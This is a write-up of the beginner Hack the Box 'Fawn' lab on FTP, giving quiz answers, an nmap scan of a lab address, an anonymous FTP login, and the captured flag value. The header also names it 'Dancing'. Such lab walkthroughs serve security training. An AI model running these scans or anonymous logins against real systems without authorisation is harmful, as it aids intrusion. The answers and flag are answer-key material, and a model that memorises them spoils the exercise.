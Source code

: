 # Fawn
* Source:  [Hack the Box](https://hackthebox.com/)
* Challenge: Dancing
* Topic: FTP
* Difficulty: Very easy
* Date: 12-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What does the 3-letter acronym FTP stand for? 
 - **File Transfer Protocol**
2. What communication model does FTP use, architecturally speaking? 
- **Client-Server model**
3. What is the name of one popular GUI FTP program? 
- **FileZilla**
4. Which port is the FTP service active on usually?
- **21 TCP**
5. What acronym is used for the secure version of FTP? 
- **SFTP**
6. What is the command we can use to test our connection to the target? 
- **ping**
7. From your scans, what version is FTP running on the target? 
- **vsftpd 3.0.3**
8. From your scans, what OS type is running on the target?
- **Unix**

---
## Solution:
First, we need to scan the target with `nmap`.

Command:

`nmap -n -sC -sV 10.129.87.103`

`-n`: No DNS look up (Good [OPSEC](https://en.wikipedia.org/wiki/Operations_security)).

`-sC`: Run scripts during scan.

`-sV`: Try to detect the version of running services.

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.87.103
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 13:39 EDT
Nmap scan report for 10.129.87.103
Host is up (0.071s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.15
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
Service Info: OS: Unix
```

An FTP server with anonymous login enabled and a file called `flag.txt`. We can use `ftp` to connect. 

User:pass `anonymous:<BLANK>`

```
┌──(kali㉿kali)-[~/Downloads]
└─$ ftp 10.129.87.103
Connected to 10.129.87.103.
220 (vsFTPd 3.0.3)
Name (10.129.87.103:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

We can get the `flag.txt` file by using the `get` command.

Type `exit` to gracefully close the connection afterwards.

```
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||36066|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |*************************************************|    32      416.66 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.44 KiB/s)
ftp> exit
221 Goodbye.
```

To see what a file contains we can use `cat`.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat flag.txt
035db21c881520061c53e0536e44f815
```

**Flag:** `035db21c881520061c53e0536e44f815`

---
**Tags:** [[HackTheBox]]
